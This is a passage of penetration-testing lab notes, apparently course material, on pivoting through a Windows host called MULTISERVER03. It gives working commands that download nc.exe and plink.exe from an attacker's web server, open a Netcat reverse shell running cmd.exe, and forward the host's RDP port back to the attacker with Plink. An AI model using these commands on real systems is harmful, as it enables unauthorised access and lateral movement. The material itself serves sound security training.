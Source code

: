 Once the PowerShell command is executed, our payload is downloaded from our Apache2 server to **C:\Windows\Temp\nc.exe** on `MULTISERVER03`
+ We can then set up a Netcat listener on port 4446 on our Kali machine:
```
nc -nvlp 4446
```

Once the listener is running, we'll execute **nc.exe** on MULTISERVER03 using the web shell again, passing **-e** to execute **cmd.exe** once the connection is established
```
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```
+ The shell quickly hits our listener

We now want to download Plink to `MULTISERVER03`
+ On our Kali machine, we can copy **plink.exe** from **windows-resources/binaries** to the Apache2 web root
```
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 

kali@kali:~$ 
```

In our reverse shell, we'll again use the PowerShell one-liner to download **plink.exe** from our Kali machine to **C:\Windows\Temp**
```
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```
+ With the Plink executable downloaded to MULTISERVER03, we can now consider using it.

In this case, let's set up Plink with a remote port forward so that we can access the `MULTISERVER03` RDP port from our Kali machine
+ The command syntax to set up a remote port forward with Plink is very similar to the OpenSSH client remote port forward command
+ After the **-R** option, we'll pass the socket we want to open on the Kali SSH server, and the RDP server port on the loopback interface of `MULTISERVER03` that we want to forward packets to
+ We will also pass the username (**-l**) and password (**-pw**) directly on the command line
	+ **NOTE**: This might log our Kali password somewhere undesirable! If we're in a hostile network, we may wish to create a port-forwarding only user on our Kali machine for remote port forwarding situations
+ Usage:
```
C:\Windows\Temp\plink.exe -ssh -l <USERNAME> -pw <YOUR PASSWORD HERE> -R 127.0.0.1:<SERVER-PORT>:<FORWARD-IP>:<FORWARD-PORT> <SERVER-IP>
```
+ This will make a port run locally on the server (The attacker) listening, and sending the traffic to the client (The machine doing this plink command), where that client will forward to the specified socket (`<FORWARD-IP>:<FORWARD-PORT>`)
+ Example usage and output:
```
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
The host key is not cached for this server:
  192.168.118.4 (port 22)
You have no guarantee that the server is the computer
you think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:q1QQjIxHhSFXfEIT4gYrRF+zKr0bcLMOJljoINxThxY
If you trust this host, enter "y" to add the key to
```